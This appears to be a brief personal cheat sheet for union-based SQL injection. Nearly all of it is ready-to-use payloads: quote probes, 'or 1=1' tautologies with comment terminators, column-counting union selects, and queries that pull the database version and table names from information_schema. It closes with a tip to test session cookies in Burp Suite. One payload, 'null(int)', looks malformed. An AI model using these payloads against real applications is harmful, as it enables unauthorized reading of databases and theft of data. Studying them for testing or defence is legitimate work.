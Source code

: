 # SQL Injection

## Union

Check for errors by using single quote `/'/` or double quotes `/"/`

like

jermy' or jermy''

```
jerymy' or 1=1#
```

```
jerymy' or 1=1-- -
```

```
jerymy' union select null#
```

```
jerymy' union select null,null#
```

```
jerymy' union select null,null,null#
```

```
jerymy' union select null,null,version()#
```

```
jerymy' union select null,null,table_name from information_schema.tables#
```

sometime need to play with the variables like

```
jerymy' union select null(int),null,null#
```

&#x20;Check for session cookies for SQL injection too using burp suite repeater

